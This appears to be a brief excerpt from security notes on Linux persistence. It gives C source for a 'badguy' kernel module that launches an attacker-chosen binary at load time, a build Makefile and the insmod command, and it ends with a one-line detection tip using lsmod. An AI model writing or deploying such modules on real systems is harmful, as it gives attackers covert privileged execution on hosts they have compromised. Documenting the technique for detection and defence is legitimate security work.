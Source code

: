 ```C
#include <linux/module.h> // included for all kernel modules
#include <linux/init.h> // included for __init and __exit macros MODULE_LICENSE("GPL"); 
MODULE_AUTHOR("You");
MODULE_DESCRIPTION("A Simple shell module");
static int __init shell_init(void) { 
	call_usermodehelper("/path/to/badguy", NULL, NULL, UMH_WAIT_EXEC);
	return 0; // Non-zero return means that the module couldn't be loaded.
} 
static void __exit shell_cleanup(void) { 
	printk(KERN_INFO "Uninstalling Module!\n");
} 
module_init(shell_init);
module_exit(shell_cleanup);
```

with Makefile:

```Makefile
obj-m += badguy.o 
all: 
	make -C /lib/modules/$(shell uname -r)/build M=${PWD} modules
clean: 
	make -C /lib/modules/$(shell uname -r)/build M=${PWD} clean
```

now add your module:

```bash
sudo insmod badguy.ko
```

#### Detection:
User can see malicious module by executing
```bash
lsmod
```



